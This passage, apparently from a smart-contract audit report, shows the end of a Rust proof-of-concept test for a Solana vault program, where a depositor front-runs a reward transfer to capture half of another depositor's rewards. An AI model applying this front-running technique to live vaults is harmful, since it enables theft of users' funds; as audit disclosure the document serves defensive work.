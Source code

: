 ```rust
            .close_vault_update_state_tracker(
                &vault_root.vault_pubkey,
                &vault_update_state_tracker,
                slot / config.epoch_length()
            ).await
            .unwrap();

        //after sometime, rewarder sends rewards to vault and update_vault_balance, but gets frontrun with a deposit call by Bob to steal part of the rewards meant for Alice the depositor
        vault_program_client
            .create_and_fund_reward_vault(&vault_root.vault_pubkey, &rewarder, reward_amount).await
            .unwrap();

        //bob frontruns with a deposit
        vault_program_client.do_mint_to(&vault_root, &bob, MINT_AMOUNT, MINT_AMOUNT).await.unwrap();

        //update_vault_balance
        vault_program_client.update_vault_balance(&vault_root.vault_pubkey).await.unwrap();

        //Now check the burn summary
        let mut vault_details = vault_program_client
            .get_vault(&vault_root.vault_pubkey).await
            .unwrap();

        let alice_vrt_account = fixture
            .get_token_account(
                &get_associated_token_address(&alice.pubkey(), &vault_details.vrt_mint)
            ).await
            .unwrap();
        let bob_vrt_account = fixture
            .get_token_account(
                &get_associated_token_address(&bob.pubkey(), &vault_details.vrt_mint)
            ).await
            .unwrap();

        let BurnSummary {
            vault_fee_amount: _,
            program_fee_amount: _,
            burn_amount: _,
            out_amount: alice_out_amount,
        } = vault_details.burn_with_fee(alice_vrt_account.amount).unwrap();

        let BurnSummary {
            vault_fee_amount: _,
            program_fee_amount: _,
            burn_amount: _,
            out_amount: bob_out_amount,
        } = vault_details.burn_with_fee(bob_vrt_account.amount).unwrap();

        assert_eq!(alice_out_amount, bob_out_amount);
        assert_eq!(bob_out_amount, MINT_AMOUNT + reward_amount / 2);
    }
}
```

* Run the PoC test
